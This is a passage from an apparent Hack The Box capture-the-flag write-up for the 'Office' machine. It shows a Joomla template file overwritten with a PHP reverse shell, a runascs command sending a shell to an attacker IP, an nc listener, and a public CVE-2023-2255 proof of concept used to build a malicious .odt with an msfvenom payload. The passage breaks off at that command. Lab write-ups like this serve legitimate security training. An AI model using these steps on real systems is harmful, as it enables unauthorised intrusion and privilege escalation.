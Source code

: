 Which can be used to log into the Joomla (user administrator) login portal.

![office Untitled4](https://github.com/g1vi/AllTheWriteUps/assets/120142960/5a337467-063d-4e3d-9848-6819bad45441)

Once inside the dashboard, follow the same procedure as in the [HTB - Devvortex machine](https://github.com/g1vi/AllTheWriteUps/blob/main/Hack%20the%20box/Open%20beta%20season%20III%20(Fall%202023)/Week%209.%20HTB%20-%20Devvortex.MD). Navigate to `system -> site templates`, move to the `cassiopeia` template and overwrite the `error.php` file with a PHP reverse shell.<br>
<br>
In this case, we chose a `PHP Simon Sincek` reverse shell from http://www.revshells.com (`PHP PentestMonkey` did not work).

![office Untitled5](https://github.com/g1vi/AllTheWriteUps/assets/120142960/5d1c6f26-1722-4ab5-8cc0-91b0b00c117d)

Save and close, then trigger the reverse shell by navigating to http://office.htb/templates/cassiopeia/error.php<br>
<br>
A reverse shell is received on port 1919.
```markdown
C:\xampp\htdocs\joomla\templates\cassiopeia> whoami

office\web_account
```
This shell cannot be used to get the user flag, but since we have `tstark` credentials, we can just move laterally to this user with `runascs`
```markdown
c:\users\public\music> .\runascs.exe tstark <password here> cmd.exe -r 10.10.15.46:9999
```
A shell for user `tstark` is received on por 9999.
```markdown
> rlwrap -cAr nc -lvp 9999
listening on [any] 9999 ...
connect to [10.10.xxx.xxx] from office.htb [10.10.11.3] 64331

Microsoft Windows [Version 10.0.20348.2322]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami

office\tstark
```
Which can be used to retrieve the user flag.

### SYSTEM
Start from the `tstark` shell, and take the opportunity to enumerate the system.
```markdown
C:\Windows\system32> systeminfo

Host Name:                 DC
OS Name:                   Microsoft Windows Server 2022 Standard
OS Version:                10.0.20348 N/A Build 20348
System Type:               x64-based PC
```
Find the file `c:\xampp\htdocs\internal\resume.php` and enumerate the source code. It seems it is an internal service allowing the employees to upload their resumes in `.doc`, `.docx`, `.docm` or `.odt` format (which explains the box's name).<br>
<br>
Looking for ways to to generate a malicious `.odt` files, we come across this POC https://github.com/elweth-sec/CVE-2023-2255<br>
<br>
Prepare a `shell.exe` payload with `msfvenom`, then transfer it to the folder `c:\users\public\music` in the victim.<br>
<br>
Now use the POC to create a malicious `.odt`
```markdown
> python3 CVE-2023-2255.py --cmd 'c:\users\public\music\shell.exe' --output 'present.odt' 
```